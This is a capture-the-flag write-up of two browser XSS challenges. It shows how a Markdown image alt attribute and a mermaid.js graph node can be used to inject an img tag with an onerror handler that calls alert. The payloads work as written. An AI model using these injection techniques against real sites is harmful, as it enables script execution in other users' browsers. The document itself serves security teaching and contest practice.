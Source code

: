 # Marcodowno & Marcozuckerbergo
#### Author: Karol Baryła aka mmk1
In those 2 challs we are given sites which takes parameter from URL and then interpret and render it: in Marcodowno as Markdown, in Marcozuckerbergo as graph from mermaid.js library. Our task is to create and URL which will make alert(1) pop upoin visiting the site.

## Marcodowno
Whole Markdown interpreter is interpreted as simple chain of replaces on original parameter. The one that intrests us is `.replace(/!\[([^\]]+)\]\((https?:\/\/[a-zA-Z0-9./?#]+)\)/g, '<img src="$2" alt="$1"/>')`.
Contents of alt parameter are unrestricted, so we can do something like `![aaa" onerror="alert(1)](https://google.com)` which is turned into `<img src="https://google.com" alt="aaa" onerror="alert(1)">` and solves the task.

## Marcozuckerbergo
Mermaid lets us put images into nodes ([https://github.com/knsv/mermaid/issues/548]())
We can try modifying line from answer to something like 
`Dir((<img src='' onerror='alert(1)' width='40' />))` but the parser doesn't like ( and ). So we can use the other syntax for calling functions, and end up with 
```javascript
graph LR;
    A-->B;
    Dir((<img src='' onerror='alert`1`' width='40' />))
```
which solves the task
